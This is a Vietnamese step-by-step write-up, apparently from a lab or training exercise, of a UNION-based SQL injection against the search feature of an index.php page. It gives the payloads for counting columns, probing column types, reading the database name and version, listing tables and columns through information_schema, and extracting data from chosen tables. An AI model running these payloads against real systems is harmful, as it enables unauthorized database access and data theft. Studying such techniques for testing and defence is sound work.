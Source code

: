 Người thực hiện: Lê Trần Văn Chương.
Ngày: 05/04/2022.
Mục lục:
- Khai thác SQLi Union Based chức năng search ở trang index.php
## Khai thác SQLi Union Based chức năng search ở trang index.php
1. Kiểm tra xem có tổng cộng bao nhiêu cột dữ liệu trong bảng của DB.
`' ORDER BY 14 #` 
	
2. Vị trí của từng cột dữ liệu trong bảng hiện ở ngoài client (1, 12, 2, 10, 11)
`' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 #`
![Hinh 1.](~/../img/1.png)

3. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (1)
`' UNION SELECT 'a',NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 
![Hinh 2.](/../img/2.png)

4. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (2)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 3.!](img\3.png)

5. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (10)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a',NULL,NULL,13,14 #` 
![Hinh 4.!](img\4.png)

6. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (11)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a',NULL,13,14 #` 
![Hinh 5.!](img\5.png)

7. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (12)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a','a',13,14 #` 
![Hinh 6.!](img\6.png)

8. Kiểm tra thử những cột vừa rồi kiểu dữ liệu có phải là string hay không
`' UNION SELECT 'asd','asd',3,4,5,6,7,8,9,'asd','asd','asd',13,14 #` 
=> Các cột hiện trên client đều có kiểu dữ liệu là string
![Hinh 7.!](img\7.png)

9. Kiểm tra DB hiện tại
`' UNION SELECT database(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 8.!](img\8.png)

10.  Version của DB
`' UNION SELECT version(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 9.!](img\9.png)

11. Lấy tất cả các table có trong DB
`' UNION SELECT  table_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.tables #`
(Một số bảng đáng chú ý: `admin_func, payload, user, users, account, accounts`)
![Hinh 10.!](img\10.png)

12. Lấy tất cả các trường trong bảng admin_func
`' UNION SELECT  column_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.columns WHERE table_name='admin_func' #`
=> từ đây có thể khai thác dữ liệu như mình muốn
![Hinh 11.!](img\11.png)

13.  Ví dụ: tôi khai thác cột `name` và `extension` của bảng `payload`.
`' UNION SELECT  name,extension,3,4,5,6,7,8,9,10,11,12,13,14 FROM payload  #`
![Hinh 12.!](img\12.png)